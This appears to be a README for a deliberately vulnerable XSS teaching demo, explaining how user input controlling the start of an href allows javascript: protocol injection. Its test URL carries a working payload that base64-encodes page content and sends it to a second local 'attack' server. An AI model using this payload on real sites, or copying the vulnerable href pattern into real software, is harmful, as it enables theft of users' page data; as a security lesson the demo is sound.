# XSS (bad, still vulnerable to injection attacks)

Our server is vulnerable because we allow user input to determine the beginning of a href attribute - the only safe way to avoid a protocol handler exploit is to never do that.

## How to run
`node index.js`

## test with
http://localhost:3000/?prev=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(stat.innerHTML)}`,0/

This will inject into our link
javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(stat.innerHTML)}``,0/

and log
::1 ON FIRE!!! HELP!!!
